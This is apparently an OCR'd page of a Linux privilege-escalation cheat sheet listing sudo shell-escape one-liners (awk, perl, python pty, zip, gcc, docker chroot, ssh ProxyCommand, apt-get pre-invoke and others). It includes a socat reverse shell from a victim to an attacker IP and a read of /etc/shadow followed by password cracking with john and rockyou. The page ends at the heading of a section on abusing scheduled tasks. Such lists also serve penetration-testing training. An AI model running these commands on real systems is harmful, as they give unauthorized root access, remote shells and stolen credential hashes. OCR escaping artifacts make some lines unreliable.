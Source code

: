 4.  sudo env /bin/bash

5.  sudo awk \'BEGIN {system(\"/bin/bash\")}\'

6.  sudo perl -e \'exec \"/bin/bash\";\'

7.  sudo python -c \'import pty;pty.spawn(\"/bin/bash\")\'

8.  sudo less /etc/hosts - !bash

9.  sudo man man - !bash

10. sudo ftp - ! /bin/bash

11. Attacker = socat file:\`tty\`,raw,echo=0 tcp-listen:1234

12. Victim = sudo socat exec:\'sh -li\',pty,stderr,setsid,sigint,sane
    > tcp:192.168.1.105:1234

13. echo test \> notes.txt

14. sudo zip test.zip notes.txt -T \--unzip-command=\"sh -c /bin/bash\"

15. sudo gcc -wrapper /bin/bash,-s .

16. sudo docker run -v /:/mnt \--rm -it alpine chroot /mnt sh

17. sudo mysql -e \'\\! /bin/sh\'

18. sudo ssh -o ProxyCommand=\';sh 0\<&2 1\>&2\' x

19. Sudo tmux

20. sudo pkexec /bin/bash

21. sudo rlwrap /bin/bash

22. sudo xargs -a /dev/null sh

23. sudo /home/anansi/bin/anansi_util manual /bin/bash

24. sudo apt-get update -o APT::Update::Pre-Invoke::="/bin/bash -i"

25. echo \'import pty; pty.spawn("/bin/bash")\' \> flask.py

26. export FLASK_APP=flask.py

27. sudo /usr/bin/flask run

28. sudo apache2 -f /etc/shadow\
    > john hash \--wordlist=/usr/share/wordlists/rockyou.txt

<a name="abusing-scheduled-tasks"></a>
# Abusing Scheduled Tasks

Domain: Y/N

Local Admin: Yes

OS: Linux

Type: Abusing Scheduled Tasks
